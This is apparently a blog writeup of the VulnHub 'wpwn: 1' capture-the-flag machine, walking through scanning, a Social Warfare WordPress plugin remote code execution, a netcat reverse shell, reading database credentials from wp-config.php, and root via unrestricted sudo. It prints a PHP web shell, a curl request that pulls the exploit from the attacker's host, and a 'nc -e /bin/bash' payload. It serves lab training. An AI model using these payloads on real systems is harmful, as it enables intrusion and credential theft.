```yaml
---
title: Wpwn:1 - Writeup
author: Elman Alizadeh
date: 2022-06-05 19:20:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, wpwn]
---
```


Today we will take a look at Vulnhub: wpwn: 1. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-wpwn/1.png" | relative_url }})

## Network scan

```console
sudo nmap -p- -sCV --open 192.168.213.123

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster

```console
gobuster dir -u http://192.168.213.123  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.213.123
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/05 18:50:16 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 322]
```

## Wpscan

```console
wpscan --url http://192.168.213.123/wordpress
```

![Desktop View]({{ "/assets/img/vuln-wpwn/2.png" | relative_url }})


[Social-Warfare-rce](https://github.com/shad0w008/social-warfare-RCE)

## Reverse Shell

```console
Command: nano exploit.php

<pre>system($_GET[rce])</pre>

Command: curl 'http://192.168.213.123/wordpress/wp-admin/admin-post.php?rce=id&swp_debug=load_options&swp_url=http://192.168.49.213:1337/exploit.php'
```

![Desktop View]({{ "/assets/img/vuln-wpwn/3.png" | relative_url }})

```console
http://192.168.213.123/wordpress/wp-admin/admin-post.php?rce=nc%20-e%20/bin/bash%20Your_IP%204242&swp_debug=load_options&swp_url=http://192.168.49.213:1337/exploit.php

# Change IP
```

## Takis

After login

```console
Command: script /dev/null -c bash

Command: export TERM=xterm

ctrl+z                            

Command: stty raw -echo ; fg                  
           
Command: reset
```

### Takis’s password

We see the password in the wp-config.php file in the /var/www/html/ wordpress folder.

```console
Command: cat wp-config.php
```

![Desktop View]({{ "/assets/img/vuln-wpwn/4.png" | relative_url }})

## Root


```console
Command: sudo -l

(ALL) NOPASSWD: ALL

Command: sudo su
```

![Desktop View]({{ "/assets/img/vuln-wpwn/5.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-wpwn/6.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”
